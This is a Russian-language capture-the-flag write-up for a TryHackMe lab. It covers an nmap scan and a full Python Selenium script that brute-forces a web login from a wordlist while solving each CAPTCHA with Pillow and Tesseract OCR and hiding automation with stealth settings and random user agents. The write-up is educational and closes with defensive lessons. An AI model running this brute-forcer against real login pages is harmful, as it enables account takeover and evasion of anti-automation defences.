

# CAPTCHApolcalypse

> Автоматизация словарного перебора веб-аутентификации, защищённой простой пользовательской CAPTCHA, с использованием Selenium, Pillow и Tesseract OCR.

## Общая информация

| Параметр         | Значение                                                                   |     |
| ---------------- | -------------------------------------------------------------------------- | --- |
| Платформа        | TryHackMe                                                                  |     |
| ОС               | Ubuntu Linux                                                               |     |
| Категория        | Web / Automation                                                           |     |
| Основные техники | Browser automation, CAPTCHA preprocessing, OCR, dictionary password attack |     |

## Краткое резюме

После обнаружения веб-приложения на `80/tcp` был исследован механизм входа: форма использовала CSRF-токен и CAPTCHA, а клиентский код формировал зашифрованный POST-запрос. CAPTCHA представляла собой простое изображение с чёрным текстом на белом фоне и могла быть стабильно обработана средствами OCR.

Для автоматизации был разработан Selenium-скрипт. На каждой итерации он загружал свежую страницу, получал актуальный CSRF-токен и изображение CAPTCHA, выполнял предварительную обработку через Pillow, распознавал текст Tesseract и проверял очередной пароль из словаря. После нахождения корректного пароля выполнялась успешная аутентификация и был получен флаг.

## Разведка

### Сканирование портов

Первоначально был выполнен полный скан TCP-портов целевой машины с помощью утилиты `nmap`:

```bash
nmap -sV -O -p- TARGET_IP
```

```text
Nmap scan report for 10.114.162.109
Host is up (0.00041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/6%OT=22%CT=1%CU=31724%PV=Y%DS=1%DC=I%G=Y%TM=6A749
OS:DD4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M
OS:2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=
OS:F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.12 seconds
```

В результате сканирования были обнаружены два открытых TCP-порта:

| PORT   | SERVICE |
| ------ | ------- |
| 22/tcp | SSH     |
| 80/tcp | HTTP    |

> **Примечание.** В условиях реального тестирования после первоначального сканирования следовало бы продолжить разведку: выполнить поиск директорий и поддоменов, изучить DNS-записи, использовать NSE-скрипты `nmap`, дополнительные сканеры и другие средства перечисления сервисов.
>
> Однако основной целью данного челленджа являлась автоматизация перебора учётных данных, что также подтверждалось общей простотой машины и используемых авторизационных данных. По этой причине углублённая разведка в рамках конкретного задания не являлась необходимой для достижения поставленной цели.

### Изучение веб-приложения

На главной странице веб-приложения располагалась форма авторизации, содержащая поля для ввода логина, пароля и пользовательскую реализацию CAPTCHA.



Анализ исходного кода страницы и механизма CAPTCHA показал, что в процессе авторизации клиент формирует POST-запрос с зашифрованным телом.

Согласно исходному коду скрипта, отвечающего за шифрование и расшифрование передаваемых данных, тело запроса формируется на основе JSON-объекта, содержащего поля `csrf_token`, `login`, `password` и `captcha`, после чего шифруется открытым ключом сервера.

Для расшифрования данных на стороне клиента используется закрытый ключ клиента. Оба используемых ключа присутствуют в исходном коде соответствующего клиентского скрипта.

CAPTCHA представляет собой изображение с чёрным текстом на белом фоне, возвращаемое ресурсом `/captcha.php`. Простая структура изображения позволяет предварительно обработать его и использовать OCR для автоматического распознавания содержащегося текста.

## Автоматизация

Для автоматизации процесса перебора паролей был разработан Python-скрипт на основе Selenium.

На каждой итерации скрипт загружает страницу авторизации, получает актуальный CSRF-токен и изображение CAPTCHA, после чего выполняет предварительную обработку изображения. Для повышения качества распознавания изображение переводится в оттенки серого, увеличивается, подвергается повышению резкости и контрастности, а затем преобразуется в бинарное изображение.

Полученный результат передаётся в Tesseract OCR. Для снижения количества ошибок распознавания набор допустимых символов ограничивается символами, используемыми в CAPTCHA.

Если распознанное значение не соответствует ожидаемому формату, текущая попытка пропускается. В противном случае скрипт заполняет форму авторизации очередным паролем из словаря и распознанным значением CAPTCHA, после чего отправляет форму.

```python
from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium_stealth import stealth


import time

from fake_useragent import UserAgent

from PIL import Image, ImageEnhance, ImageFilter

import pytesseract

import io

import os


import argparse


parser = argparse.ArgumentParser()


parser.add_argument("-u", "--url", required=True)

parser.add_argument("-l", "--login", required=True, default="admin")

parser.add_argument("-w", "--wordlist", required=True)


args = parser.parse_args()


loginURL = args.url

username = args.login

pathToPass = args.wordlist


os.makedirs("captIMG", exist_ok=True)


options = Options()

ua = UserAgent()

userAgent = ua.random

options.add_argument('--no-sandbox')

options.add_argument('--headless')

options.add_argument("start-maximized")

options.add_argument(f'user-agent={userAgent}')

options.add_argument('--disable-dev-shm-usage')

options.add_argument('--disable-cache')

options.add_argument('--disable-gpu')


chrome = webdriver.Chrome(options=options)


stealth(chrome,

    languages=["en-US", "en"],

    vendor="Google Inc.",

    platform="Win32",

    webgl_vendor="Intel Inc.",

    renderer="Intel Iris OpenGL Engine",

    fix_hairline=True,

)


with open(pathToPass, "r") as passwords:

    for password in passwords:

        password = password.replace("\n", "")

        chrome.get(loginURL)

        time.sleep(1)

        csrf = chrome.find_element(By.NAME, "csrf_token").get_attribute("value")


        captcha_img_element = chrome.find_element(By.TAG_NAME, "img")

        captcha_png = captcha_img_element.screenshot_as_png


        image = Image.open(io.BytesIO(captcha_png)).convert("L")

        image = image.resize((image.width * 2, image.height * 2), Image.LANCZOS)  # Resize for clarity

        image = image.filter(ImageFilter.SHARPEN)

        image = ImageEnhance.Contrast(image).enhance(2.0)

        image = image.point(lambda x: 0 if x < 140 else 255, '1')


        captcha_text = pytesseract.image_to_string(

            image,

            config='--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ23456789'

        ).strip().replace(" ", "").replace("\n", "").upper()


        if not captcha_text.isalnum() or len(captcha_text) != 5:

            print(f"[!] OCR failed (got: '{captcha_text}'), retrying...")

            continue


        print(f"[*] Trying password: {password} with CAPTCHA: {captcha_text}")


        chrome.find_element(By.ID, "username").send_keys(username)

        chrome.find_element(By.ID, "password").send_keys(password)

        chrome.find_element(By.ID, "captcha_input").send_keys(captcha_text)

        chrome.find_element(By.ID, "login-btn").click()

        time.sleep(0.5)


        if "index.php" not in chrome.current_url:

            print(chrome.current_url)

            print(f"[+] Login successful with password: {password}")

            break


chrome.quit()
```

После обнаружения корректного пароля скрипт завершает перебор. Полученные учётные данные позволили успешно пройти аутентификацию в веб-приложении и получить требуемый флаг.

## Итог

В ходе выполнения челленджа был рассмотрен сценарий автоматизации словарного перебора пароля к веб-приложению, использующему CAPTCHA в качестве дополнительной меры защиты от автоматизированных запросов.

Первоначальная разведка позволила определить доступные сетевые сервисы и выделить веб-приложение в качестве основной точки дальнейшего исследования. Анализ механизма авторизации показал особенности формирования запросов и реализации CAPTCHA, после чего процесс аутентификации был полностью автоматизирован с помощью Selenium.

Ключевой частью решения стала автоматизация распознавания CAPTCHA. Благодаря простой структуре изображения его удалось предварительно обработать средствами Pillow и передать в Tesseract OCR, что позволило автоматически получать значение CAPTCHA для каждой новой попытки авторизации.

В результате CAPTCHA не препятствовала автоматизации процесса перебора: разработанный скрипт последовательно проверял пароли из заданного словаря, одновременно обрабатывая новые CAPTCHA для каждой попытки. После обнаружения корректных учётных данных была выполнена успешная авторизация и получен флаг.

Таким образом, челлендж наглядно демонстрирует, что наличие CAPTCHA само по себе не гарантирует защиту от автоматизированного подбора учётных данных, если её реализация допускает стабильное машинное распознавание.

## Ключевые выводы

- CAPTCHA не является достаточной защитой от автоматизации, если изображение стабильно распознаётся стандартным OCR после простой предварительной обработки.
- Автоматизированный перебор должен учитывать состояние сессии, актуальный CSRF-токен и новую CAPTCHA для каждой попытки.
- Ограничение допустимого алфавита в Tesseract уменьшает количество ложных распознаваний для CAPTCHA с известным набором символов.
- Защита формы входа от перебора должна опираться на серверные ограничения частоты, мониторинг и политику аутентификации, а не только на CAPTCHA.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование портов и сервисов |
| `Selenium` | Автоматизация браузера и формы входа |
| `Pillow` | Предварительная обработка CAPTCHA |
| `Tesseract OCR` | Распознавание текста CAPTCHA |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
